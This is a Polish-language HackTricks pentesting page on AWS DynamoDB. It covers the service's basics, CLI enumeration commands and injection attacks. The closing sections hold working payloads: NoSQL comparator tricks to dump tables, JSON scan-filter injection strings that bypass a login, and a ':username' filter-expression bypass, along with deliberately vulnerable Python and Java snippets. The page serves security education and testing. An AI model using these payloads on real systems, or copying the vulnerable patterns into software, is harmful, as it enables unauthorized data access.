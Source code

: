 # AWS - DynamoDB Enum

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## DynamoDB

### Basic Information

Amazon DynamoDB jest przedstawiany przez AWS jako **w pełni zarządzana, bezserwerowa, klucz-wartość baza danych NoSQL**, dostosowana do zasilania aplikacji o wysokiej wydajności, niezależnie od ich rozmiaru. Usługa zapewnia solidne funkcje, w tym wbudowane środki bezpieczeństwa, nieprzerwane kopie zapasowe, automatyczną replikację w wielu regionach, zintegrowane pamięci podręczne w pamięci oraz wygodne narzędzia do eksportu danych.

W kontekście DynamoDB, zamiast tworzyć tradycyjną bazę danych, **tworzone są tabele**. Każda tabela wymaga określenia **klucza partycji** jako integralnego elementu **klucza głównego tabeli**. Ten klucz partycji, zasadniczo **wartość haszująca**, odgrywa kluczową rolę zarówno w pobieraniu elementów, jak i w dystrybucji danych w różnych hostach. Ta dystrybucja jest kluczowa dla utrzymania zarówno skalowalności, jak i dostępności bazy danych. Dodatkowo istnieje możliwość dodania **klucza sortującego**, aby jeszcze bardziej udoskonalić organizację danych.

### Encryption

Domyślnie, DynamoDB używa klucza KMS, który **należy do Amazon DynamoDB,** a nie nawet do zarządzanego klucza AWS, który przynajmniej należy do twojego konta.

<figure><img src="https://lh4.googleusercontent.com/JjtNS7aA-_GRMgZb4v93jWEQJi6DQdUPq0FEpzZPdeyCeNoG05p0NJiV9Zs-ULs_-Tfjmx0W1ZgsE2Ui2ljo7D-1a87Xny-gpLVQO0XmXdFoph9ci1RepbVNwaCe9oPruEZSEDxGTxF5dIv6pW1WpT6kWA=s2048" alt=""><figcaption></figcaption></figure>

### Backups & Export to S3

Możliwe jest **zaplanowanie** generowania **kopii zapasowych tabeli** lub tworzenie ich na **żądanie**. Ponadto możliwe jest również włączenie **odzyskiwania w czasie rzeczywistym (PITR) dla tabeli.** Odzyskiwanie w czasie rzeczywistym zapewnia ciągłe **kopie zapasowe** danych DynamoDB przez **35 dni**, aby pomóc w ochronie przed przypadkowymi operacjami zapisu lub usunięcia.

Możliwe jest również eksportowanie **danych tabeli do S3**, ale tabela musi mieć **włączone PITR**.

### GUI

Istnieje GUI dla lokalnych usług Dynamo, takich jak [DynamoDB Local](https://aws.amazon.com/blogs/aws/dynamodb-local-for-desktop-development/), [dynalite](https://github.com/mhart/dynalite), [localstack](https://github.com/localstack/localstack) itp., które mogą być przydatne: [https://github.com/aaronshaf/dynamodb-admin](https://github.com/aaronshaf/dynamodb-admin)

### Enumeration
```bash
# Tables
aws dynamodb list-tables
aws dynamodb describe-table --table-name <t_name> #Get metadata info
## The primary key and sort key will appear inside the KeySchema field

#Check if point in time recovery is enabled
aws dynamodb describe-continuous-backups \
--table-name tablename

# Backups
aws dynamodb list-backups
aws dynamodb describe-backup --backup-arn <arn>
aws dynamodb describe-continuous-backups --table-name <t_name>

# Global tables
aws dynamodb list-global-tables
aws dynamodb describe-global-table --global-table-name <name>

# Exports
aws dynamodb list-exports
aws dynamodb describe-export --export-arn <arn>

# Misc
aws dynamodb describe-endpoints #Dynamodb endpoints
```
### Nieautoryzowany dostęp

{% content-ref url="../aws-unauthenticated-enum-access/aws-dynamodb-unauthenticated-access.md" %}
[aws-dynamodb-unauthenticated-access.md](../aws-unauthenticated-enum-access/aws-dynamodb-unauthenticated-access.md)
{% endcontent-ref %}

### Privesc

{% content-ref url="../aws-privilege-escalation/aws-dynamodb-privesc.md" %}
[aws-dynamodb-privesc.md](../aws-privilege-escalation/aws-dynamodb-privesc.md)
{% endcontent-ref %}

### Po eksploatacji

{% content-ref url="../aws-post-exploitation/aws-dynamodb-post-exploitation.md" %}
[aws-dynamodb-post-exploitation.md](../aws-post-exploitation/aws-dynamodb-post-exploitation.md)
{% endcontent-ref %}

### Utrzymywanie

{% content-ref url="../aws-persistence/aws-dynamodb-persistence.md" %}
[aws-dynamodb-persistence.md](../aws-persistence/aws-dynamodb-persistence.md)
{% endcontent-ref %}

## Wstrzykiwanie do DynamoDB

### Wstrzykiwanie SQL

Istnieją sposoby na dostęp do danych DynamoDB za pomocą **składni SQL**, dlatego typowe **wstrzykiwania SQL są również możliwe**.

{% embed url="https://book.hacktricks.xyz/pentesting-web/sql-injection" %}

### Wstrzykiwanie NoSQL

W DynamoDB różne **warunki** mogą być używane do pobierania danych, jak w typowym wstrzykiwaniu NoSQL, jeśli możliwe jest **łączenie więcej warunków w celu pobrania** danych, można uzyskać ukryte dane (lub zrzucić całą tabelę).\
Możesz znaleźć tutaj warunki obsługiwane przez DynamoDB: [https://docs.aws.amazon.com/amazondynamodb/latest/APIReference/API\_Condition.html](https://docs.aws.amazon.com/amazondynamodb/latest/APIReference/API\_Condition.html)

Zauważ, że **różne warunki** są obsługiwane, jeśli dane są uzyskiwane za pomocą **`query`** lub za pomocą **`scan`**.

{% hint style="info" %}
W rzeczywistości, akcje **Query** muszą określać **warunek "EQ" (równa się)** w **kluczu głównym**, aby działały, co sprawia, że są **mniej podatne na wstrzykiwania NoSQL** (a także ogranicza operację).
{% endhint %}

Jeśli możesz **zmienić porównanie** wykonywane lub dodać nowe, możesz pobrać więcej danych.
```bash
# Comparators to dump the database
"NE": "a123" #Get everything that doesn't equal "a123"
"NOT_CONTAINS": "a123" #What you think
"GT": " " #All strings are greater than a space
```
{% embed url="https://book.hacktricks.xyz/pentesting-web/nosql-injection" %}

### Surowa injekcja Json

{% hint style="danger" %}
**Ta podatność opiera się na filtrze skanowania dynamodb, który jest teraz przestarzały!**
{% endhint %}

**DynamoDB** akceptuje obiekty **Json** do **wyszukiwania** danych w bazie. Jeśli odkryjesz, że możesz pisać w obiekcie json wysyłanym do wyszukiwania, możesz wykonać zrzut bazy danych, wszystkich jej zawartości.

Na przykład, wstrzykując w żądaniu takim jak:

{% code overflow="wrap" %}
```bash
'{"Id": {"ComparisonOperator": "EQ","AttributeValueList": [{"N": "' + user_input + '"}]}}'
```
{% endcode %}

atakujący mógłby wstrzyknąć coś takiego:

`1000"}],"ComparisonOperator": "GT","AttributeValueList": [{"N": "0`

naprawić warunek "EQ" szukając ID 1000, a następnie szukając wszystkich danych z ciągiem Id większym niż 0, co obejmuje wszystko.

Inny **wrażliwy przykład używający logowania** mógłby być:
```python
scan_filter = """{
"username": {
"ComparisonOperator": "EQ",
"AttributeValueList": [{"S": "%s"}]
},
"password": {
"ComparisonOperator": "EQ",
"AttributeValueList": [{"S": "%s"}]
}
}
""" % (user_data['username'], user_data['password'])

dynamodb.scan(TableName="table-name", ScanFilter=json.loads(scan_filter))
```
To byłoby podatne na:
```
username: none"}],"ComparisonOperator": "NE","AttributeValueList": [{"S": "none
password: none"}],"ComparisonOperator": "NE","AttributeValueList": [{"S": "none
```
### :property Injection

Niektóre SDK umożliwiają użycie ciągu wskazującego na filtrację, która ma być przeprowadzona, jak: 

{% code overflow="wrap" %}
```java
new ScanSpec().withProjectionExpression("UserName").withFilterExpression(user_input+" = :username and Password = :password").withValueMap(valueMap)
```
{% endcode %}

Musisz wiedzieć, że wyszukiwanie w DynamoDB w celu **zastąpienia** wartości **atrybutu** w **wyrażeniach filtrujących** podczas skanowania elementów, tokeny powinny **zaczynać się** od znaku **`:`**. Takie tokeny będą **zastępowane** rzeczywistą **wartością atrybutu w czasie wykonywania**.

Dlatego logowanie, jak to poprzednie, można obejść za pomocą czegoś takiego:
```bash
:username = :username or :username
# This will generate the query:
# :username = :username or :username = :username and Password = :password
# which is always true
```
{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegram**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Dziel się trikami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>
{% endhint %}
